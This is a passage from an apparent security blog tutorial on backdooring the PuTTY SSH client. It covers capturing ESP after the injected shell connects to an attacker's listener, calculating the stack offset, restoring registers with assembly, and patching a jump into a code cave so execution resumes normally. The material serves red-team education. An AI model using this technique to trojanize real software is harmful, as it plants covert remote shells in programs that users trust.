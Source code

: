 ### Get ESP after shellcode

This can be obtained after the shellcode is executed. Remember to open a
listener in the attacker machine:

<div class="imgblock">

![ESP after](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330657/blog/backdooring-putty/espafter_r1inhq.gif)

</div>

Great\! We got the shell, and the `ESP` value is `0019FC30`. However,
the breakpoint was reached only **after** exiting the shell. We will
need to modify the shellcode later.

### Get the offset

This one is easy: `0019FE30 - 0019FC30 = 0x200`.

### Align ESP + Restore registers and flags

Now we need to point `ESP` to the value after `pushad/pushfd`. We also
need to restore the registers and flags. This can be done easily with:

``` x86asm
add esp,0x200
popfd
popad
```

We can now add that to our file:

<div class="imgblock">

![Restore](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330660/blog/backdooring-putty/restore1_z3xrgw.webp)

</div>

### Restore instructions + Jump to normal flow

If you remember, the original point from where we diverted the execution
was:

``` x86asm
0042D6F7 | 83C4 04               | add esp,4                             |
0042D6FA | 31C9                  | xor ecx,ecx                           |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              | eax:"SSH login name"
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
```

And the resulting instructions when we added the jump to our code cave
were:

``` x86asm
0042D6F7 | E9 08D90800           | jmp putty-03.4BB004                   |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              |
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
```
